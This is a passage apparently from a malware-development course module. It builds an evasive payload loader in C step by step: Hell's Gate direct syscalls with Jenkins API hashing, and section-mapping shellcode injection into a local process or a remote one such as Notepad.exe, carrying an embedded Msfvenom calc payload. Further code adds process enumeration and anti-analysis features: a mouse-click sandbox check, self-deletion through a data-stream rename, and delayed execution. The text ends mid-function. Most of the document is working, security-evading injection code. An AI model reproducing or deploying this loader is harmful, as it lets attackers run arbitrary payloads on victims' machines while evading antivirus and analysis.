Introduction
So far, numerous methods and techniques to create and execute a payload loader that can bypass a variety of software security programs have been demonstrated. This module will work to construct a feature-rich payload loader from the ground up to reinforce what has been taught in the previous modules.
Create an empty Visual Studio project and follow along to keep up with this module.
Payload Loader Features
The implemented payload loader will have the following features:
Hell's Gate Setup
This loader utilizes payload injection via direct syscalls obtained using Hell's Gate. To begin, one must create Structs.h, HellsGate.c and HellAsm.asm files. These files include the necessary functions to execute direct syscalls. The Structs.h file is used to save Windows undocumented structures and is included in subsequent C files. It contains structure definitions such as PEB, TEB, and more, which are necessary for implementing Hell's Gate.
The HellAsm.asm file will be the same as the one from the repository. As for HellsGate.c, it will have the following functions.
HellsGate.c
#include <Windows.h>#include "Structs.h"
PTEB RtlGetThreadEnvironmentBlock() {
#if _WIN64return (PTEB)__readgsqword(0x30);
#elsereturn (PTEB)__readfsdword(0x16);
#endif}
BOOL GetImageExportDirectory(PVOID pModuleBase, PIMAGE_EXPORT_DIRECTORY* ppImageExportDirectory) {
// Get DOS header
PIMAGE_DOS_HEADER pImageDosHeader = (PIMAGE_DOS_HEADER)pModuleBase;
if (pImageDosHeader->e_magic != IMAGE_DOS_SIGNATURE) {
return FALSE;
}
// Get NT headers
PIMAGE_NT_HEADERS pImageNtHeaders = (PIMAGE_NT_HEADERS)((PBYTE)pModuleBase + pImageDosHeader->e_lfanew);
if (pImageNtHeaders->Signature != IMAGE_NT_SIGNATURE) {
return FALSE;
}
// Get the EAT
*ppImageExportDirectory = (PIMAGE_EXPORT_DIRECTORY)((PBYTE)pModuleBase + pImageNtHeaders->OptionalHeader.DataDirectory[0].VirtualAddress);
return TRUE;
}
BOOL GetVxTableEntry(PVOID pModuleBase, PIMAGE_EXPORT_DIRECTORY pImageExportDirectory, PVX_TABLE_ENTRY pVxTableEntry) {
PDWORD pdwAddressOfFunctions = (PDWORD)((PBYTE)pModuleBase + pImageExportDirectory->AddressOfFunctions);
PDWORD pdwAddressOfNames = (PDWORD)((PBYTE)pModuleBase + pImageExportDirectory->AddressOfNames);
PWORD pwAddressOfNameOrdinales = (PWORD)((PBYTE)pModuleBase + pImageExportDirectory->AddressOfNameOrdinals);
for (WORD cx = 0; cx < pImageExportDirectory->NumberOfNames; cx++) {
PCHAR pczFunctionName = (PCHAR)((PBYTE)pModuleBase + pdwAddressOfNames[cx]);
PVOID pFunctionAddress = (PBYTE)pModuleBase + pdwAddressOfFunctions[pwAddressOfNameOrdinales[cx]];
if (djb2(pczFunctionName) == pVxTableEntry->uHash) {
pVxTableEntry->pAddress = pFunctionAddress;
// Quick and dirty fix in case the function has been hooked
WORD cw = 0;
while (TRUE) {
// check if syscall, in this case we are too far
if (*((PBYTE)pFunctionAddress + cw) == 0x0f && *((PBYTE)pFunctionAddress + cw + 1) == 0x05)
return FALSE;
// check if ret, in this case we are also probaly too far
if (*((PBYTE)pFunctionAddress + cw) == 0xc3)
return FALSE;
// First opcodes should be :
// MOV R10, RCX
// MOV RCX, <syscall>
if (*((PBYTE)pFunctionAddress + cw) == 0x4c
&& *((PBYTE)pFunctionAddress + 1 + cw) == 0x8b
&& *((PBYTE)pFunctionAddress + 2 + cw) == 0xd1
&& *((PBYTE)pFunctionAddress + 3 + cw) == 0xb8
&& *((PBYTE)pFunctionAddress + 6 + cw) == 0x00
&& *((PBYTE)pFunctionAddress + 7 + cw) == 0x00) {
BYTE high = *((PBYTE)pFunctionAddress + 5 + cw);
BYTE low = *((PBYTE)pFunctionAddress + 4 + cw);
pVxTableEntry->wSystemCall = (high << 8) | low;
break;
}
cw++;
};
}
}
if (pVxTableEntry->wSystemCall != NULL)
return TRUE;
else
return FALSE;
}The code above does not have the VX_TABLE_ENTRY structure or the djb2 function defined. To solve this, two new files will be created: WinApi.c and Common.h.
WinApi.c - This file is used to store the CRT library replacement functions and the string hashing functions used in Hell's Gate and the API Hahsing implementation.Common.h - This file provides common function prototypes to enable calling a function from a different file, as well as custom structure definitions, hashes values of the syscalls, and WinAPIs.The djb2 string hashing function is replaced with the following HashStringJenkinsOneAtATime32BitA/W functions, hence changing the original string hashing algorithm used in Hell's Gate.
WinApi.c
#include <Windows.h>#include "Structs.h"#include "Common.h"
UINT32 HashStringJenkinsOneAtATime32BitA(_In_ PCHAR String)
{
SIZE_T Index = 0;
UINT32 Hash = 0;
SIZE_T Length = lstrlenA(String);
while (Index != Length)
{
Hash += String[Index++];
Hash += Hash << INITIAL_SEED;
Hash ^= Hash >> 6;
}
Hash += Hash << 3;
Hash ^= Hash >> 11;
Hash += Hash << 15;
return Hash;
}
UINT32 HashStringJenkinsOneAtATime32BitW(_In_ PWCHAR String)
{
SIZE_T Index = 0;
UINT32 Hash = 0;
SIZE_T Length = lstrlenW(String);
while (Index != Length)
{
Hash += String[Index++];
Hash += Hash << INITIAL_SEED;
Hash ^= Hash >> 6;
}
Hash += Hash << 3;
Hash ^= Hash >> 11;
Hash += Hash << 15;
return Hash;
}Common.h
#pragma once#include <Windows.h>// Seed of the HashStringJenkinsOneAtATime32BitA/W funtion in 'WinApi.c'
#define INITIAL_SEED 8
UINT32 HashStringJenkinsOneAtATime32BitW(_In_ PWCHAR String);
UINT32 HashStringJenkinsOneAtATime32BitA(_In_ PCHAR String);
#define HASHA(API) (HashStringJenkinsOneAtATime32BitA((PCHAR) API))#define HASHW(API) (HashStringJenkinsOneAtATime32BitW((PWCHAR) API))// These are function prototypes - functions are defined in 'HellsGate.c'
PTEB RtlGetThreadEnvironmentBlock();
BOOL GetImageExportDirectory(PVOID pModuleBase, PIMAGE_EXPORT_DIRECTORY* ppImageExportDirectory);
BOOL GetVxTableEntry(PVOID pModuleBase, PIMAGE_EXPORT_DIRECTORY pImageExportDirectory, PVX_TABLE_ENTRY pVxTableEntry);
// These are functions prototypes - functions are defined in 'HellAsm.asm'
extern VOID HellsGate(WORD wSystemCall);
extern HellDescent();Define the VX_TABLE_ENTRY in the Common.h file, then update the HellsGate.c file to include it and utilize HASHA instead of djb2 as the hashing function.
VX_TABLE_ENTRY
typedef struct _VX_TABLE_ENTRY {
PVOID pAddress;
UINT32 uHash;
WORD wSystemCall;
} VX_TABLE_ENTRY, * PVX_TABLE_ENTRY;Calculating Syscall Hashes
A new project must be created in order to calculate the hash values of the syscalls used and print them to the console. The Hasher project will have one C file which is shown below.
Hasher.c
#include <Windows.h>#include <stdio.h>#define STR "_JOAA"#define INITIAL_SEED 8
UINT32 HashStringJenkinsOneAtATime32BitA(_In_ PCHAR String)
{
SIZE_T Index = 0;
UINT32 Hash = 0;
SIZE_T Length = lstrlenA(String);
while (Index != Length)
{
Hash += String[Index++];
Hash += Hash << INITIAL_SEED;
Hash ^= Hash >> 6;
}
Hash += Hash << 3;
Hash ^= Hash >> 11;
Hash += Hash << 15;
return Hash;
}
UINT32 HashStringJenkinsOneAtATime32BitW(_In_ PWCHAR String)
{
SIZE_T Index = 0;
UINT32 Hash = 0;
SIZE_T Length = lstrlenW(String);
while (Index != Length)
{
Hash += String[Index++];
Hash += Hash << INITIAL_SEED;
Hash ^= Hash >> 6;
}
Hash += Hash << 3;
Hash ^= Hash >> 11;
Hash += Hash << 15;
return Hash;
}
int main() {
printf("#define %s%s \t0x%0.8X \n", "NtCreateSection", STR, HashStringJenkinsOneAtATime32BitA("NtCreateSection"));
printf("#define %s%s \t0x%0.8X \n", "NtMapViewOfSection", STR, HashStringJenkinsOneAtATime32BitA("NtMapViewOfSection"));
printf("#define %s%s \t0x%0.8X \n", "NtUnmapViewOfSection", STR, HashStringJenkinsOneAtATime32BitA("NtUnmapViewOfSection"));
printf("#define %s%s \t0x%0.8X \n", "NtClose", STR, HashStringJenkinsOneAtATime32BitA("NtClose"));
printf("#define %s%s \t0x%0.8X \n", "NtCreateThreadEx", STR, HashStringJenkinsOneAtATime32BitA("NtCreateThreadEx"));
printf("#define %s%s \t0x%0.8X \n", "NtWaitForSingleObject", STR, HashStringJenkinsOneAtATime32BitA("NtWaitForSingleObject"));
return 0;
}Hasher Results
Once compiled and ran, the program will generate the following results which should be copied to the Common.h file.

Additionally, the new VX_TABLE structure definition must be updated to include the syscalls that will be utilized.
typedef struct _VX_TABLE {
VX_TABLE_ENTRY NtCreateSection;
VX_TABLE_ENTRY NtMapViewOfSection;
VX_TABLE_ENTRY NtUnmapViewOfSection;
VX_TABLE_ENTRY NtClose;
VX_TABLE_ENTRY NtCreateThreadEx;
VX_TABLE_ENTRY NtWaitForSingleObject;
} VX_TABLE, * PVX_TABLE;Payload Injection Via Hell's Gate
With Hell's Gate successfully set up, the payload injection implementation can be made. A new file will be created, Inject.c which is shown below.
The following points briefly explain the Inject.c file:
InitializeSyscalls - This function initializes the global g_Sys variable of type VX_TABLE to be used later on.RemoteMappingInjectionViaSyscalls - This function supports both local and remote mapping injection via the bLocal parameter which is set to TRUE to inject the payload locally, or FALSE for remote injection.bLocal parameter is set to TRUE, the dwLocalFlag variable will be set to PAGE_EXECUTE_READWRITE to be suitable for local payload execution, and the second NtMapViewOfSection will be avoided. But if bLocal is FALSE, the dwLocalFlag will remain PAGE_READWRITE and the function will run the second NtMapViewOfSection call to allocate memory remotely.pExecAddress variable is used to save the base address of the injected payload. It is equal to the base address of the locally injected payload (pLocalAddress) if the function is set to execute the payload locally, or the remote injected payload base address (pRemoteAddress) if the function is set to execute the payload remotely.pExecAddress variable will be then passed to the NtCreateThreadEx syscall to execute the payload whenever it was.Inject.c
#include <Windows.h>#include <stdio.h>#include "Structs.h"#include "Common.h"// global `VX_TABLE` structure
VX_TABLE g_Sys = { 0 };
BOOL InitializeSyscalls() {
// Get the PEB
PTEB pCurrentTeb = RtlGetThreadEnvironmentBlock();
PPEB pCurrentPeb = pCurrentTeb->ProcessEnvironmentBlock;
if (!pCurrentPeb || !pCurrentTeb || pCurrentPeb->OSMajorVersion != 0xA)
return FALSE;
// Get NTDLL module
PLDR_DATA_TABLE_ENTRY pLdrDataEntry = (PLDR_DATA_TABLE_ENTRY)((PBYTE)pCurrentPeb->Ldr->InMemoryOrderModuleList.Flink->Flink - 0x10);
// Get the EAT of NTDLL
PIMAGE_EXPORT_DIRECTORY pImageExportDirectory = NULL;
if (!GetImageExportDirectory(pLdrDataEntry->DllBase, &pImageExportDirectory) || pImageExportDirectory == NULL)
return FALSE;
g_Sys.NtCreateSection.uHash = NtCreateSection_JOAA;
g_Sys.NtMapViewOfSection.uHash = NtMapViewOfSection_JOAA;
g_Sys.NtUnmapViewOfSection.uHash = NtUnmapViewOfSection_JOAA;
g_Sys.NtClose.uHash = NtClose_JOAA;
g_Sys.NtCreateThreadEx.uHash = NtCreateThreadEx_JOAA;
g_Sys.NtWaitForSingleObject.uHash = NtWaitForSingleObject_JOAA;
// initialize the syscalls
if (!GetVxTableEntry(pLdrDataEntry->DllBase, pImageExportDirectory, &g_Sys.NtCreateSection))
return FALSE;
if (!GetVxTableEntry(pLdrDataEntry->DllBase, pImageExportDirectory, &g_Sys.NtMapViewOfSection))
return FALSE;
if (!GetVxTableEntry(pLdrDataEntry->DllBase, pImageExportDirectory, &g_Sys.NtUnmapViewOfSection))
return FALSE;
if (!GetVxTableEntry(pLdrDataEntry->DllBase, pImageExportDirectory, &g_Sys.NtClose))
return FALSE;
if (!GetVxTableEntry(pLdrDataEntry->DllBase, pImageExportDirectory, &g_Sys.NtCreateThreadEx))
return FALSE;
if (!GetVxTableEntry(pLdrDataEntry->DllBase, pImageExportDirectory, &g_Sys.NtWaitForSingleObject))
return FALSE;
return TRUE;
}
BOOL RemoteMappingInjectionViaSyscalls(IN HANDLE hProcess, IN PVOID pPayload, IN SIZE_T sPayloadSize, IN BOOL bLocal) {
HANDLE hSection = NULL;
HANDLE hThread = NULL;
PVOID pLocalAddress = NULL,
pRemoteAddress = NULL,
pExecAddress = NULL;
NTSTATUS STATUS = NULL;
SIZE_T sViewSize = NULL;
LARGE_INTEGER MaximumSize = {
.HighPart = 0,
.LowPart = sPayloadSize
};
DWORD dwLocalFlag = PAGE_READWRITE;
//--------------------------------------------------------------------------
// Allocating local map view
HellsGate(g_Sys.NtCreateSection.wSystemCall);
if ((STATUS = HellDescent(&hSection, SECTION_ALL_ACCESS, NULL, &MaximumSize, PAGE_EXECUTE_READWRITE, SEC_COMMIT, NULL)) != 0) {
printf("[!] NtCreateSection Failed With Error : 0x%0.8X \n", STATUS);
return FALSE;
}
if (bLocal) {
dwLocalFlag = PAGE_EXECUTE_READWRITE;
}
HellsGate(g_Sys.NtMapViewOfSection.wSystemCall);
if ((STATUS = HellDescent(hSection, (HANDLE)-1, &pLocalAddress, NULL, NULL, NULL, &sViewSize, ViewShare, NULL, dwLocalFlag)) != 0) {
printf("[!] NtMapViewOfSection [L] Failed With Error : 0x%0.8X \n", STATUS);
return FALSE;
}
printf("[+] Local Memory Allocated At : 0x%p Of Size : %d \n", pLocalAddress, sViewSize);
//--------------------------------------------------------------------------
// Writing the payload
printf("[#] Press <Enter> To Write The Payload ... ");
getchar();
memcpy(pLocalAddress, pPayload, sPayloadSize);
printf("\t[+] Payload is Copied From 0x%p To 0x%p \n", pPayload, pLocalAddress);
//--------------------------------------------------------------------------
// Allocating remote map view
if (!bLocal) {
HellsGate(g_Sys.NtMapViewOfSection.wSystemCall);
if ((STATUS = HellDescent(hSection, hProcess, &pRemoteAddress, NULL, NULL, NULL, &sViewSize, ViewShare, NULL, PAGE_EXECUTE_READWRITE)) != 0) {
printf("[!] NtMapViewOfSection [R] Failed With Error : 0x%0.8X \n", STATUS);
return FALSE;
}
printf("[+] Remote Memory Allocated At : 0x%p Of Size : %d \n", pRemoteAddress, sViewSize);
}
//--------------------------------------------------------------------------
// Executing the payload via thread creation
pExecAddress = pRemoteAddress;
if (bLocal) {
pExecAddress = pLocalAddress;
}
printf("[#] Press <Enter> To Run The Payload ... ");
getchar();
printf("\t[i] Running Thread Of Entry 0x%p ... ", pExecAddress);
HellsGate(g_Sys.NtCreateThreadEx.wSystemCall);
if ((STATUS = HellDescent(&hThread, THREAD_ALL_ACCESS, NULL, hProcess, pExecAddress, NULL, NULL, NULL, NULL, NULL, NULL)) != 0) {
printf("[!] NtCreateThreadEx Failed With Error : 0x%0.8X \n", STATUS);
return FALSE;
}
printf("[+] DONE \n");
printf("\t[+] Thread Created With Id : %d \n", GetThreadId(hThread));
//--------------------------------------------------------------------------
// Waiting for the thread to finish
HellsGate(g_Sys.NtWaitForSingleObject.wSystemCall);
if ((STATUS = HellDescent(hThread, FALSE, NULL)) != 0) {
printf("[!] NtWaitForSingleObject Failed With Error : 0x%0.8X \n", STATUS);
return FALSE;
}
// Unmapping the local view
HellsGate(g_Sys.NtUnmapViewOfSection.wSystemCall);
if ((STATUS = HellDescent((HANDLE)-1, pLocalAddress)) != 0) {
printf("[!] NtUnmapViewOfSection Failed With Error : 0x%0.8X \n", STATUS);
return FALSE;
}
// Closing the section handle
HellsGate(g_Sys.NtClose.wSystemCall);
if ((STATUS = HellDescent(hSection)) != 0) {
printf("[!] NtClose Failed With Error : 0x%0.8X \n", STATUS);
return FALSE;
}
return TRUE;
}Process Enumeration
In order to create a complete process injection module, the usage of the NtQuerySystemInformation syscall is required to fetch a target process handle, as outlined in the Process Enumeration - NtQuerySystemInformation module.
The use of a new syscall will require the VX_TABLE structure to be updated to include one more element, VX_TABLE_ENTRY NtQuerySystemInformation for it to be initialized by the InitializeSyscalls function. Additionally, use the Hasher program to calculate a hash value for the "NtQuerySystemInformation" string.
BOOL GetRemoteProcessHandle(IN LPCWSTR szProcName, IN DWORD* pdwPid, IN HANDLE* phProcess) {
ULONG uReturnLen1 = NULL,
uReturnLen2 = NULL;
PSYSTEM_PROCESS_INFORMATION SystemProcInfo = NULL;
PVOID pValueToFree = NULL;
NTSTATUS STATUS = NULL;
// This will fail with status = STATUS_INFO_LENGTH_MISMATCH, but that's ok, because we need to know how much to allocate (uReturnLen1)
HellsGate(g_Sys.NtQuerySystemInformation.wSystemCall);
HellDescent(SystemProcessInformation, NULL, NULL, &uReturnLen1);
// Allocating enough buffer for the returned array of `SYSTEM_PROCESS_INFORMATION` struct
SystemProcInfo = (PSYSTEM_PROCESS_INFORMATION)HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, (SIZE_T)uReturnLen1);
if (SystemProcInfo == NULL) {
return FALSE;
}
// Since we will modify 'SystemProcInfo', we will save its intial value before the while loop to free it later
pValueToFree = SystemProcInfo;
// Calling NtQuerySystemInformation with the right arguments, the output will be saved to 'SystemProcInfo'
HellsGate(g_Sys.NtQuerySystemInformation.wSystemCall);
STATUS = HellDescent(SystemProcessInformation, SystemProcInfo, uReturnLen1, &uReturnLen2);
if (STATUS != 0x0) {
printf("[!] NtQuerySystemInformation Failed With Error : 0x%0.8X \n", STATUS);
return FALSE;
}
while (TRUE) {
// Small check for the process's name size
// Comparing the enumerated process name to what we want to target
if (SystemProcInfo->ImageName.Length && HASHW(SystemProcInfo->ImageName.Buffer) == HASHW(szProcName)) {
// Opening a handle to the target process and saving it, then breaking
*pdwPid = (DWORD)SystemProcInfo->UniqueProcessId;
*phProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, (DWORD)SystemProcInfo->UniqueProcessId);
break;
}
// If NextEntryOffset is 0, we reached the end of the array
if (!SystemProcInfo->NextEntryOffset)
break;
// Moving to the next element in the array
SystemProcInfo = (PSYSTEM_PROCESS_INFORMATION)((ULONG_PTR)SystemProcInfo + SystemProcInfo->NextEntryOffset);
}
// Freeing using the initial address
HeapFree(GetProcessHeap(), 0, pValueToFree);
// Checking if we got the target's process handle
if (*pdwPid == NULL || *phProcess == NULL)
return FALSE;
else
return TRUE;
}Main Function
To test the code so far, create main.c which will contain the entry point function of the loader along with the usual Msfvenom calc payload.
The following points briefly explain the main function:
InitializeSyscalls function is the first function to be called. All other functions depend on it to initialize the syscall structure.TARGET_PROCESS is defined, GetRemoteProcessHandle is called to retrieve the target process handle and pass its output to RemoteMappingInjectionViaSyscalls.TARGET_PROCESS is not defined, the code directly calls RemoteMappingInjectionViaSyscalls with a pseudo value to the local process handle (1), instructing it to inject the payload locally.main.c
#include <Windows.h>#include <stdio.h>#include "Structs.h"#include "Common.h"// comment to inject to the local process
//
#define TARGET_PROCESS L"Notepad.exe"// x64 calc metasploit
unsigned char Payload [] = {
0xFC, 0x48, 0x83, 0xE4, 0xF0, 0xE8, 0xC0, 0x00, 0x00, 0x00, 0x41, 0x51,
0x41, 0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xD2, 0x65, 0x48, 0x8B, 0x52,
0x60, 0x48, 0x8B, 0x52, 0x18, 0x48, 0x8B, 0x52, 0x20, 0x48, 0x8B, 0x72,
0x50, 0x48, 0x0F, 0xB7, 0x4A, 0x4A, 0x4D, 0x31, 0xC9, 0x48, 0x31, 0xC0,
0xAC, 0x3C, 0x61, 0x7C, 0x02, 0x2C, 0x20, 0x41, 0xC1, 0xC9, 0x0D, 0x41,
0x01, 0xC1, 0xE2, 0xED, 0x52, 0x41, 0x51, 0x48, 0x8B, 0x52, 0x20, 0x8B,
0x42, 0x3C, 0x48, 0x01, 0xD0, 0x8B, 0x80, 0x88, 0x00, 0x00, 0x00, 0x48,
0x85, 0xC0, 0x74, 0x67, 0x48, 0x01, 0xD0, 0x50, 0x8B, 0x48, 0x18, 0x44,
0x8B, 0x40, 0x20, 0x49, 0x01, 0xD0, 0xE3, 0x56, 0x48, 0xFF, 0xC9, 0x41,
0x8B, 0x34, 0x88, 0x48, 0x01, 0xD6, 0x4D, 0x31, 0xC9, 0x48, 0x31, 0xC0,
0xAC, 0x41, 0xC1, 0xC9, 0x0D, 0x41, 0x01, 0xC1, 0x38, 0xE0, 0x75, 0xF1,
0x4C, 0x03, 0x4C, 0x24, 0x08, 0x45, 0x39, 0xD1, 0x75, 0xD8, 0x58, 0x44,
0x8B, 0x40, 0x24, 0x49, 0x01, 0xD0, 0x66, 0x41, 0x8B, 0x0C, 0x48, 0x44,
0x8B, 0x40, 0x1C, 0x49, 0x01, 0xD0, 0x41, 0x8B, 0x04, 0x88, 0x48, 0x01,
0xD0, 0x41, 0x58, 0x41, 0x58, 0x5E, 0x59, 0x5A, 0x41, 0x58, 0x41, 0x59,
0x41, 0x5A, 0x48, 0x83, 0xEC, 0x20, 0x41, 0x52, 0xFF, 0xE0, 0x58, 0x41,
0x59, 0x5A, 0x48, 0x8B, 0x12, 0xE9, 0x57, 0xFF, 0xFF, 0xFF, 0x5D, 0x48,
0xBA, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x48, 0x8D, 0x8D,
0x01, 0x01, 0x00, 0x00, 0x41, 0xBA, 0x31, 0x8B, 0x6F, 0x87, 0xFF, 0xD5,
0xBB, 0xE0, 0x1D, 0x2A, 0x0A, 0x41, 0xBA, 0xA6, 0x95, 0xBD, 0x9D, 0xFF,
0xD5, 0x48, 0x83, 0xC4, 0x28, 0x3C, 0x06, 0x7C, 0x0A, 0x80, 0xFB, 0xE0,
0x75, 0x05, 0xBB, 0x47, 0x13, 0x72, 0x6F, 0x6A, 0x00, 0x59, 0x41, 0x89,
0xDA, 0xFF, 0xD5, 0x63, 0x61, 0x6C, 0x63, 0x00
};
int main() {
DWORD dwProcessId = NULL;
HANDLE hProcess = NULL;
if (!InitializeSyscalls()) {
printf("[!] Failed To Initialize Syscalls Structure \n");
return -1;
}
#ifdef TARGET_PROCESSwprintf(L"[i] Targetting Remote Process %s ... \n", TARGET_PROCESS);
if (!GetRemoteProcessHandle(TARGET_PROCESS, &dwProcessId, &hProcess)) {
printf("[!] Could Not Find Target Process Id \n");
return -1;
}
printf("[+] Target Process Id Detected Of PID : %d \n", dwProcessId);
if (!RemoteMappingInjectionViaSyscalls(hProcess, Payload, sizeof(Payload), FALSE)) {
printf("[!] Failed To Inject Payload \n");
return -1;
}
#endif // TARGET_PROCESS#ifndef TARGET_PROCESSif (!RemoteMappingInjectionViaSyscalls((HANDLE)-1, Payload, sizeof(Payload), TRUE)) {
printf("[!] Failed To Inject Payload \n");
return -1;
}
#endif // !TARGET_POCESSreturn 0;
}Loader Results
Remote Code Injection

Local Code Injection

Anti-Analysis Features
To add anti-analysis features create a new file called AntiAnalysis.c. This file will contain the following functionality:
NtDelayExecution from the Anti-Virtual Environments - Multiple Delay Execution Techniques moduleAntiAnalysis.c
#include <Windows.h>#include <stdio.h>#include "Structs.h"#include "Common.h"// Global hook handle variable
HHOOK g_hMouseHook = NULL;
// global mouse clicks counter
DWORD g_dwMouseClicks = NULL;
// The callback function that will be executed whenever the user clicked a mouse button
LRESULT CALLBACK HookEvent(int nCode, WPARAM wParam, LPARAM lParam) {
if (wParam == WM_LBUTTONDOWN || wParam == WM_RBUTTONDOWN || wParam == WM_MBUTTONDOWN) {
printf("[+] Mouse Click Recorded \n");
g_dwMouseClicks++;
}
return CallNextHookEx(g_hMouseHook, nCode, wParam, lParam);
}
BOOL MouseClicksLogger() {
MSG Msg = { 0 };
// Installing hook
g_hMouseHook = SetWindowsHookExW(
WH_MOUSE_LL,
(HOOKPROC)HookEvent,
NULL,
NULL
);
if (!g_hMouseHook) {
printf("[!] SetWindowsHookExW Failed With Error : %d \n", GetLastError());
}
// Process unhandled events
while (GetMessageW(&Msg, NULL, NULL, NULL)) {
DefWindowProcW(Msg.hwnd, Msg.message, Msg.wParam, Msg.lParam);
}
return TRUE;
}
BOOL DeleteSelf() {
WCHAR szPath[MAX_PATH * 2] = { 0 };
FILE_DISPOSITION_INFO Delete = { 0 };
HANDLE hFile = INVALID_HANDLE_VALUE;
PFILE_RENAME_INFO pRename = NULL;
const wchar_t* NewStream = (const wchar_t*)NEW_STREAM;
SIZE_T sRename = sizeof(FILE_RENAME_INFO) + sizeof(NewStream);
// Allocating enough buffer for the 'FILE_RENAME_INFO' structure
pRename = HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, sRename);
if (!pRename) {
printf("[!] HeapAlloc Failed With Error : %d \n", GetLastError());
return FALSE;
}
// Cleaning up the structures
ZeroMemory(szPath, sizeof(szPath));
ZeroMemory(&Delete, sizeof(FILE_DISPOSITION_INFO));
//--------------------------------------------------------------------------------------------------------------------------
// Marking the file for deletion (used in the 2nd SetFileInformationByHandle call)
Delete.DeleteFile = TRUE;
// Setting the new data stream name buffer and size in the 'FILE_RENAME_INFO' structure
pRename->FileNameLength = sizeof(NewStream);
RtlCopyMemory(pRename->FileName, NewStream, sizeof(NewStream));
//--------------------------------------------------------------------------------------------------------------------------
// Used to get the current file name
if (GetModuleFileNameW(NULL, szPath, MAX_PATH * 2) == 0) {
printf("[!] GetModuleFileNameW Failed With Error : %d \n", GetLastError());
return FALSE;
}
//--------------------------------------------------------------------------------------------------------------------------
// RENAMING
// Opening a handle to the current file
hFile = CreateFileW(szPath, DELETE | SYNCHRONIZE, FILE_SHARE_READ, NULL, OPEN_EXISTING, NULL, NULL);
if (hFile == INVALID_HANDLE_VALUE) {
printf("[!] CreateFileW [R] Failed With Error : %d \n", GetLastError());
return FALSE;
}
wprintf(L"[i] Renaming :$DATA to %s ...", NEW_STREAM);
// Renaming the data stream
if (!SetFileInformationByHandle(hFile, FileRenameInfo, pRename, sRename)) {
printf("[!] SetFileInformationByHandle [R] Failed With Error : %d \n", GetLastError());
return FALSE;
}
wprintf(L"[+] DONE \n");
CloseHandle(hFile);
//--------------------------------------------------------------------------------------------------------------------------
// DELEING
// Opening a new handle to the current file
hFile = CreateFileW(szPath, DELETE | SYNCHRONIZE, FILE_SHARE_READ, NULL, OPEN_EXISTING, NULL, NULL);
if (hFile == INVALID_HANDLE_VALUE && GetLastError() == ERROR_FILE_NOT_FOUND) {
// in case the file is already deleted
return TRUE;
}
if (hFile == INVALID_HANDLE_VALUE) {
printf("[!] CreateFileW [D] Failed With Error : %d \n", GetLastError());
return FALSE;
}
wprintf(L"[i] DELETING ...");
// Marking for deletion after the file's handle is closed
if (!SetFileInformationByHandle(hFile, FileDispositionInfo, &Delete, sizeof(Delete))) {
printf("[!] SetFileInformationByHandle [D] Failed With Error : %d \n", GetLastError());
return FALSE;
}
wprintf(L"[+] DONE \n");
CloseHandle(hFile);
//--------------------------------------------------------------------------------------------------------------------------
// Freeing the allocated buffer
HeapFree(GetProcessHeap(), 0, pRename);
return TRUE;
}
typedef NTSTATUS(NTAPI* fnNtDelayExecution)(
BOOLEAN Alertable,
PLARGE_INTEGER DelayInterval
);
BOOL DelayExecutionVia_NtDE(FLOAT ftMinutes) {
// Converting minutes to milliseconds
DWORD dwMilliSeconds = ftMinutes * 60000;
LARGE_INTEGER DelayInterval = { 0 };
LONGLONG Delay = NULL;
NTSTATUS STATUS = NULL;
fnNtDelayExecution pNtDelayExecution = (fnNtDelayExecution)GetProcAddress(GetModuleHandle(L"NTDLL.DLL"), "NtDelayExecution");
DWORD _T0 = NULL,
_T1 = NULL;
printf("[i] Delaying Execution Using \"NtDelayExecution\" For %0.3d Seconds", (dwMilliSeconds / 1000));
